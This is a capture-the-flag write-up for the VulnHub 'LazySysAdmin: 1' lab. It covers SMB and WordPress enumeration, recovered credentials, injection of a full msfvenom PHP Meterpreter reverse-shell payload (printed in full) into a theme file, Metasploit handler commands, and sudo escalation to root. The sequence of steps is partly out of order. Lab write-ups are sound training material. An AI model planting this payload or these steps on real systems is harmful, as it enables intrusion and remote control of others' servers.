

<div align="center">

# LazySysAdmin: 1

### Boot-to-Root CTF Write-up

**Linux Enumeration and Privilege Escalation**

[English](README.md) | [فارسی](README.fa.md)


</div>

---
# LazySysAdmin: 1 — CTF Write-up

## Overview

LazySysAdmin: 1 is a beginner-friendly boot-to-root CTF challenge hosted on VulnHub.

The challenge simulates a Linux server with security weaknesses caused by poor system administration. The objective is to enumerate services, discover exposed information, identify vulnerabilities, obtain an initial shell, and ultimately gain root access to the target machine.
## Download the Lab

You can download the LazySysAdmin: 1 virtual machine from VulnHub.

- **Challenge Page:** [LazySysAdmin: 1 — VulnHub](https://www.vulnhub.com/entry/lazysysadmin-1,205/)
- **Direct Download:** [Lazysysadmin.zip](https://download.vulnhub.com/lazysysadmin/Lazysysadmin.zip)

**Virtualization:** VirtualBox or VMware

**Difficulty:** Beginner – Intermediate

## Network Discovery

Using `netdiscover`, we identified two active devices on the local network:

- `192.168.43.220` — Our Kali Linux machine.
- `192.168.43.166` — The LazySysAdmin target machine.

The target IP address identified for further enumeration was `192.168.43.166`.


## SMB Service Enumeration

We used Nmap with the `-sV` option to identify the services and their versions running on the target machine.

The scan revealed several open ports, including ports `139` and `445`, which are commonly associated with SMB (Server Message Block).

SMB is a network protocol used to share files and resources between devices. We decided to investigate this service to determine whether any shared resources were accessible without authentication.

The scan also identified other services, including SSH, HTTP, MySQL, and IRC, which could be investigated during further enumeration.

The following command was used:

```bash
nmap -sV 192.168.43.166
```


## SMB Anonymous Access

We investigated the SMB service and successfully connected without providing a password.

This indicated that the service allowed access without authentication. We could now explore the available shared resources and look for files that might contain useful information.


## WordPress Configuration File Discovery

Using the shell we obtained, we accessed the WordPress configuration files and retrieved `wp-config.php` using the `GET` command.

By examining the file contents, we discovered the following credentials:

- **Username:** `Admin`
- **Password:** `TogieMYSQL12345^^`

These credentials provided a new lead for investigating access to the WordPress administration panel.


## WordPress Login

After discovering the username and password in `wp-config.php`, we needed to determine where these credentials could be used.

Using **Dirb**, we discovered the following WordPress administration URL:

`http://192.168.43.166/wordpress/wp-admin/user/`

We entered the credentials we had found:

- **Username:** `Admin`
- **Password:** `TogieMYSQL12345^^`

We successfully logged in to the WordPress interface using these credentials.


## WordPress Theme Editor Discovery

After exploring the WordPress dashboard, we found that theme files could be edited through the administration panel.

The theme editor was accessible at:

`http://192.168.43.166/wordpress/wp-admin/theme-editor.php`

This discovery led us to investigate whether the ability to modify theme files could be abused to execute PHP code on the target system.

We continued testing this possibility within the authorized CTF environment.


## Generating a PHP Meterpreter Payload

After discovering that WordPress allowed us to edit theme files, we decided to test whether this functionality could be used to establish a reverse connection to our Kali Linux machine.

We used `msfvenom` to generate a PHP Meterpreter reverse TCP payload. We configured our Kali Linux machine (`192.168.43.220`) as the callback address and selected port `888`.

The following command was used:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.220 LPORT=888 -f raw
```

The screenshot below shows the payload generation process.


### Generated PHP Payload

The following PHP code was generated by `msfvenom`:

```php
<?php /**/ error_reporting(0); $ip = '192.168.43.220'; $port = 888; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

This payload was configured to connect back to the specified IP address and port. Generating the payload alone did not establish a session; the payload also had to execute on the target while a compatible listener was running.

## Injecting the Payload into the WordPress Theme

After generating the PHP Meterpreter payload, we opened the WordPress Theme Editor and inserted the payload into the selected theme file.

We then saved the changes. This step was intended to test whether the modified theme file could execute the PHP payload in our authorized CTF environment.



## Starting the Metasploit Listener

Next, we launched the Metasploit Framework using `msfconsole` and configured a multi/handler to receive the reverse TCP connection.

We selected the `php/meterpreter/reverse_tcp` payload and configured the listener to use our Kali Linux IP address (`192.168.43.220`) and port `888`.

The following commands were used:

```text
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.43.220
set lport 888
exploit
```

Metasploit confirmed that the reverse TCP handler had started and was listening on `192.168.43.220:888`.


At this point, the handler was waiting for an incoming connection. We then requested the modified theme file to trigger the payload.

## Obtaining a Shell

After starting the Metasploit listener, we sent a request to the modified WordPress theme file at the following URL:

`http://192.168.43.166/wordpress/wp-content/themes/twentyfifteen/404.php`

This triggered the PHP payload and successfully established a Meterpreter session, giving us an initial foothold on the target machine.


## Enumerating System Users

After obtaining an initial shell, we investigated the system to identify potential paths for privilege escalation.

We used the following command to list the local user accounts:

```bash
cat /etc/passwd
```


While examining the output, we noticed an account named `togie`. This account stood out as a potential candidate for further investigation.

At this stage, we had identified a possible path to higher privileges, but we still needed to investigate the account's credentials and permissions.

## Discovering Credentials Through SMB

After identifying the `togie` user, we returned to the SMB service to investigate whether any shared files contained useful information.

While exploring the available SMB resources, we discovered a file named `deets.txt`. We downloaded it using the following command:

```text
smb: \> get deets.txt
getting file \deets.txt of size 139 as deets.txt (9.0 KiloBytes/sec) (average 156.3 KiloBytes/sec)
smb: \>
```

The transfer completed successfully, and the file was saved locally for further inspection.


Upon examining the file, we discovered a password associated with the `togie` account:

- **Username:** `togie`
- **Password:** `12345`

This discovery provided the credentials needed to investigate the account and its permissions.

## Privilege Escalation to Root

At this point, we had discovered the credentials for the `togie` user. However, our current shell was not attached to a proper interactive terminal, so we first needed to obtain an interactive TTY.

### Getting an Interactive TTY

We used Python's `pty` module to spawn an interactive Bash shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

After running the command, we obtained an interactive shell:

```text
<ww/html/wordpress/wp-content/themes/twentyfifteen$
```

We could now switch to the `togie` user:

```bash
su togie
```

The system requested the password:

```text
Password: 12345
```

The login was successful, and the prompt changed to the `togie` account:

```text
togie@LazySysAdmin:/var/www/html/wordpress/wp-content/themes/twentyfifteen$
```

### Checking Sudo Permissions

After gaining access as `togie`, we checked which commands the user was allowed to execute with `sudo`:

```bash
sudo -l
```

After entering the password, the system displayed the following output:

```text
[sudo] password for togie: 12345

Matching Defaults entries for togie on LazySysAdmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
```

The critical line was:

```text
(ALL : ALL) ALL
```

This indicated that the `togie` user was permitted to execute commands as any user, including `root`. This unrestricted sudo permission provided a direct path to privilege escalation.

### Getting Root Access

We used the available sudo privileges to launch a root shell:

```bash
sudo su
```

The terminal prompt changed to:

```text
root@LazySysAdmin:/var/www/html/wordpress/wp-content/themes/twentyfifteen#
```

This confirmed that we had successfully obtained root privileges on the target machine.

### Finding the Proof

With root access established, we inspected the `/root` directory:

```bash
ls /root
```

The output revealed the following file:

```text
proof.txt
```

We then read its contents:

```bash
cat /root/proof.txt
```

The file contained the following proof and message:

```text
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851

Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie
```

The file also included several additional random strings:

```text
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
```

These strings appeared in the original `proof.txt` file. The first string was also presented as the proof at the beginning of the file.


## Final Attack Chain

The complete attack path for this challenge was:

**Network Discovery → Nmap Enumeration → SMB Anonymous Access → Credential Discovery → WordPress Login → Theme Editor → PHP Meterpreter Payload → Reverse Shell → Interactive TTY → `togie` Account → Sudo Enumeration → Root Access → `proof.txt`**

## Conclusion

The LazySysAdmin CTF demonstrated how multiple security weaknesses can be combined to compromise a vulnerable Linux system.

During the challenge, we enumerated network services, discovered anonymously accessible SMB resources, recovered credentials, accessed the WordPress administration panel, and used an editable theme file to obtain an initial shell.

We then investigated local user accounts, discovered credentials for `togie`, and found that the account could execute commands with unrestricted sudo privileges. This ultimately allowed us to obtain root access and read `/root/proof.txt`, completing the challenge.
